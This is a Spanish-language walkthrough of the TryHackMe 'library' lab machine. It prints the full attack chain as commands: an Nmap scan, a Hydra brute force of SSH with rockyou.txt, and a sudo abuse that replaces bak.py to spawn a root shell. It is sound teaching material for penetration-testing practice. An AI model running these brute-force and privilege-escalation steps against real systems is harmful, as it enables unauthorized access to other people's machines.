









# Guía de Explotación - TryHackMe library

## 1. Reconocimiento

### Escaneo inicial con Nmap

Realizamos un escaneo con Nmap utilizando el siguiente comando:

```bash
nmap -A -p- -T4 IP_MAQUINA_ATACADA
```



Como resultado, encontramos dos puertos abiertos:
- **22/TCP** (SSH)
- **80/TCP** (HTTP)

También identificamos la presencia del archivo ``/robots.txt``.

Procedemos a comprobar el servicio HTTP en el navegador.



En la página web encontramos un usuario llamado **meliodas**.

Al revisar el archivo `/robots.txt`, encontramos una pista que menciona **rockyou**, lo que sugiere la posibilidad de realizar un ataque de fuerza bruta contra el servicio SSH.



## 2. Obtención de acceso

Utilizaremos Hydra para realizar un ataque de fuerza bruta contra SSH, empleando el diccionario **rockyou.txt** y el usuario encontrado previamente (**meliodas**). Ejecutamos el siguiente comando:

```bash
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://IP_MAQUINA_ATACADA
```



Una vez obtenida la contraseña, accedemos a la máquina mediante SSH:

```bash
ssh meliodas@IP_MAQUINA_ATACADA
```



Listamos los archivos en el directorio del usuario y encontramos el archivo **user.txt**, que contiene la primera flag:

```bash
ls
cat user.txt
```



## 3. Escalada de privilegios

Para identificar posibles privilegios elevados, verificamos los permisos sudo asignados al usuario con:

```bash
sudo -l
```



Observamos que se nos permite ejecutar Python con privilegios elevados sobre un script llamado **bak.py**.

Intentamos modificar el script, pero no tenemos permisos de escritura ya que pertenece a **root**. Sin embargo, podemos eliminarlo y crear uno nuevo con el siguiente contenido:

```bash
echo 'import pty; pty.spawn("/bin/sh")' > bak.py
sudo python /home/meliodas/bak.py
```



Al ejecutar el script modificado, obtenemos acceso como **root**. Ahora solo necesitamos acceder al directorio de root y leer la flag final:

```bash
cd /root
cat root.txt
```



¡Máquina comprometida con éxito!

